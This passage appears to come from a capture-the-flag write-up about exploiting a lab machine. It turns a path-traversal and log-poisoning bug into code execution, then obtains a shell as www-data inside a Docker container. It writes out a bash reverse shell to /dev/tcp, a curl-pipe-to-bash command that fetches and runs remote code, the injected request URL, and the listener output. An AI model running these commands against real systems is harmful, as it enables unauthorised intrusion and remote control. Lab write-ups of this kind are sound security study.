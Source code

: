 We now have `RCE` on the server in the context of www-data. Let us get a shell next.

In order to get a shell, we simply let the server download and execute a bash `reverse-shell`, that we will host on our machine.
```bash
root@silence:~# cat shell.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
```
We can now trigger the reverse-shell by sending `curl 10.10.14.15/shell.sh|bash` as a cmd parameter.

```http
http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//var/log/apache2/access.log&cmd=curl+10.10.14.5/shell.sh|bash
```
```bash
root@silence:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.173 - - [13/May/2020 20:28:12] "GET /shell.sh HTTP/1.1" 200 -
```
We get a shell as www-data returned.
```bash
root@silence:~# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.173.
Ncat: Connection from 10.10.10.173:54904.
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
www-data@8d8f7bbd30e4:/var/www/html/docx2pdf$
```

# Privesc to user
Now that we have a shell on the system as `www-data`, let us upgrade our shell and enumerate the system as www-data.

```bash
www-data@8d8f7bbd30e4:/var/www/html/docx2pdf$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<pdf$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@8d8f7bbd30e4:/var/www/html/docx2pdf$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@silence:~/# stty raw -echo
root@silence:~/# nc -lnvp 443
www-data@8d8f7bbd30e4:/var/www/html/docx2pdf$ export TERM=xterm
```
Now that we have a fully working shell, let us enumerate the system.

## Enumeration as www-data
Right off the bat, I noticed the strange looking `hostname`, which could suggest that we are in a `docker container`.
```bash
www-data@8d8f7bbd30e4:/$ ls -alh
total 88K
drwxr-xr-x   1 root root 4.0K May 13 18:23 .
drwxr-xr-x   1 root root 4.0K May 13 18:23 ..
-rwxr-xr-x   1 root root    0 May 13 18:23 .dockerenv
```
Checking the root directory, we indeed seem to be in a docker container. After some basic `linux enumeration`, which did not lead anywhere, I decided to upload [pspy](https://github.com/DominicBreuker/pspy) to the box and check if there are any interesting processes running.
